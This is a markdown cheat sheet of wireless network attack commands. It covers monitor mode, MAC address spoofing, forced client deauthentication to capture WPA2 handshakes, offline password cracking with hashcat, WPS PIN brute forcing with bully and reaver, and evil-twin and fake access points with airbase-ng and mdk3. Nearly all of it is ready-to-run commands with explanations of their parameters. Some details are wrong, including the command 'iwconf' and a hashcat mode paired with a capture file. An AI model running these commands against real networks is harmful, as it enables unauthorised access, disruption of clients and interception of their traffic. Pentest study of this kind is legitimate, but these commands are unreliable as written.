 # WiFi

## Monitor mode
Either:   
```
airmon-ng start wlan0
```

Or:  
```
ifconfig wlan0 down
iwconf wlan0 mode monitor
ifconfig wlan0 up
```


## Capture frames
`airodump-ng wlan0mon`

## Capture MAC addresses
To capture the MAC address of clients who have authenticated to the AP:  

`airodump-ng -c <channel> -a -bssid <bssid>`

Where:   
`<channel>` - The Channel that the AP is broadcasting on   
`<bssid>`   - The BSSID of the AP

## Spoof MAC address
Once a MAC address has been determined, the local MAC can be changed. First you need to take down the local adapter:

`ifconfig wlan0 down`

Then you can use `macchanger` to change the MAC address to match the one you captured:

`macchanger -m <mac> wlan0`

Finally, bring the interface back up:

`ifconfig wlan0 up`

## Attacking WPA2-PSK
WPA2-PSK is the most widely used protocol used for securing Wi-Fi, although WPA3 is starting to gain popularity.

To crack WPA2-PSK, the hash of the password must be captured and then cracked offline using a tool like `hashcat`. This passord hash can be captured by sniffing the network traffic until the client sends it to the AP, this can either be done stealthily by waiting or by forcing the client to disconnect from the AP.

The first step is to put the wireless adapter into [monitor mode](#monitor-mode) and then running:

`airodump-ng -bssid <BSSID> -c <channel> --write <file> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the Target AP   
`<channel`   - The Channel the AP is transmitting on   
`<file>`     - A filename used to store the captured handshake   

### Forcing a client to reconnect
If you don't want to wait for a client to connect to capture the password hash, you can force an already connected client to disconnect from the AP. This will cause the client to reconnect, and you can quickly capture the hash:

`aireplay-ng -deauth 100 -a <BSSID> wlan0mon`

where:   
`-deauth 100` - Send 100 deauth frames to the AP   
`<BSSID>`     - The BSSID of the target AP

When the client reconnects, the four way handshake will be captured.

```
CH 11 ][ Elapsed:  3 hours 15 minutes  ][ 2023-02-05 10:27 ] [  WPA Handshake:  12:09:27:00:18:21
```

### Brute force
Now that you have the handshake, you can use a cracking program like `hashcat` to brute-force the password. This can either be done using a dictionary, or by iterating through a series of values.

`hashcat -m 16800 file.cap /user/share/dictionary/passwords.txt`



## Attacking WPS
WPS is a mechanism where a client can connect to an AP using a PIN, rather than a complex password. The PIN is made up of 8 digits, with the last digit being a checksum. With WPS 1.0, the first four are checked, and then the last 3 are checked separately. This gives 11,000 possible PINs. However with WPS 2.0, this has since been mitigated.

To get a list of APs with WPS, use `wash`:

`wash -i wlan0mon`

This will show a list like this:

|BSSID              |Ch |dBm  |WPS  |Lck  |Vendor    |ESSID                        |
|-------------------|---|-----|-----|-----|----------|-----------------------------|
|FF:FF:FF:FF:FF:FF  | 1 | -58 | 2.0 | No  | Unknown  | Business-Net                |
|FF:FF:FF:FF:FF:FF  | 1 | -54 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -24 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -48 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | Yes | Broadcom | OfficeJet 6950              |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | No  | Unknown  | Apathy                      |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 1.0 | No  | Unknown  | Car                         |


Using the information from `wash` and `airodump-ng`, the PIN can be crute forced using either `bully` or `reaver`

### Bully

`bully wlan0mon -b <BSSID> -e <ESSID> -c <Channel>`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Reaver

`reaver -i wlan0mon -b <BSSID> -vv`

where:   
`<BSSID>`    - The BSSID of the AP

## Evil Twin (MiTM)
`airbase-ng` turns a Wi-Fi adapter into an AP, broadcasting and accepting client connection. To make this possible, two network interfaces are required.

### Creating an AP
`airbase-ng -a <BSSID> --essid <ESSID> -c <Channel> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Bridge the connection
To allow internet traffic to flow through the rouge AP, a second network interface needs to be configured to allow traffic to seamlessly flow to any unsuspectingly connected clients.



## Create a fake AP

First, make sure the interface is in [monitor mode](#monitor-mode)


`mdk3 <interface> b -c <channel> -f <file>`
`mdk3 <interface> b -n <ssid> -g -t -m`

Where:   
`<interface>`   - The interface that is being used to serve the fake AP
`<channel>`     - The channel to transmit on
`<file>`        - A file containing SSIDs
`<ssid>`        - An SSID to assign to the AP
`-g`            - Show AP as 54 Mbit.
`-t`            - Show AP using WPA TKIP encryption
`-m`            - Assign a valid MAC addresses from the OUI database

example:
`mdk3 wlan0mon b -c 11 -f fake-net.txt`    
`mdk3 wlan0mon b -n free-internet -g -t -m`    

